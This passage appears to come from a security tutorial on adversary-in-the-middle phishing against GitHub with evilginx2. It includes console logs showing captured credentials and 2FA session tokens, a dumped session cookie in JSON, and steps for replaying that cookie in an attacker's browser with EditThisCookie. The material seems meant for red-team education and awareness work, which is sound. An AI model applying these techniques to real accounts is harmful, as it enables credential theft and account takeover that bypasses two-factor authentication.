 
<h6 id="figure4">Figure 4: Landing page of the phishing website</h6>
<img src=/images/mitm_evilginx/phishingLanding.png width=400 class="center" style="margin-top: 10px" alt="Landing page of the phishing website">

When the target enters their username and password on the assumed official GitHub website, this information is stored in plain text on the proxy server. Subsequently, the target is prompted to input the time-based one-time password (TOTP) from their smartphone app for two-factor authentication. Once the target provides this TOTP, a legitimate session is established with the GitHub servers, and a session cookie is issued for the duration of the session. In this scenario, the session cookie is intercepted by evilginx2 before being relayed to the target to establish the session:
```
[22:42:33] [imp] [0] [github] new visitor has arrived: Mozilla/5.0 (Macintosh; Intel
Mac OS X 10.15; rv:107.0) Gecko/20100101 Firefox/107.0 (1.2.3.4)
[22:43:37] [+++] [0] Username: [first.last@mail.com]
[22:43:37] [+++] [0] Password: [S3cR3tP@$$w0Rd]
[22:43:52] [+++] [0] all authorization tokens intercepted!

: sessions
+-----+-----------+-------------------+-----------------+-----------+------------+-------------------+
| id  | phishlet  | username          | password        | tokens    | remote ip  | time              |
+-----+-----------+-------------------+-----------------+-----------+------------+-------------------+
| 1   | github    | first.last@ma...  | S3cR3tP@$$w0Rd  | captured  | 1.2.3.4    | 2023-02-18 14:31  |
+-----+-----------+-------------------+-----------------+-----------+------------+-------------------+
```


### Replay Attack Using the Intercepted Session Cookie

After obtaining the valid session cookie in the previous step, it can be extracted as the server logs it in plain text:
```
: sessions 1
...
[{"path":"/","domain":"github.com","expirationDate":1674510247,"value":"yes","name":"logged_in","httpOnly":true},{"path":"/","domain":"github.com","expirationDate":1674510247,"value":"zPseudonym","name":"dotcom_user","httpOnly":true},{"path":"/","domain":"github.com","expirationDate":1674510247,"value":"eCPeifWT2dk96Nj1n5e0U95YVgstZpDsw5OQTp6UHk2XhrR3dokBZANVgF%2FFRDnjOmBvhJNH7UDFy9ao3sSumBc4heaWmwhPzpaEuwDcb3IPX5o8dIpSLITW0VmHvapjKGga6AJvyLu6QxehklG6MU3rZyQlWBO%2FyuCYXbno4ydhh6vhYwvmaiBgch2W2uzwcVunZhGejcstItcRYQHFNU4KrJapno8e%2BA7dJZM2lORIgZO0ZnK1%2B3PMFgl2M8mNR0ooOqKAMkmjbenY9shM2w%3D%3D--4wUn7Xoc4gnuRFzu--MuN4n11lgVrqeJovTwItZQ%3D%3D","name":"_gh_sess","httpOnly":true,"hostOnly":true},{"path":"/","domain":"github.com","expirationDate":1674510247,"value":"8iJl7yASEUr3Pm_OCLY5LGCyw97Rckzj95DptjF-csyoEdMU","name":"user_session","httpOnly":true,"hostOnly":true}]
```

This captured cookie can easily be imported into the attacker's browser by using a third-party browser extension such as EditThisCookie, as shown in the following [figure 5]( {{< ref "mitm_evilginx_phishing.md#figure5" >}}):

<h6 id="figure5">Figure 5: Importing the intercepted session cookie with EditThisCookie</h6>
<img src=/images/mitm_evilginx/editThisCookie.png width=500 class="center" style="margin-top: 10px" alt="Importing the intercepted session cookie with EditThisCookie">
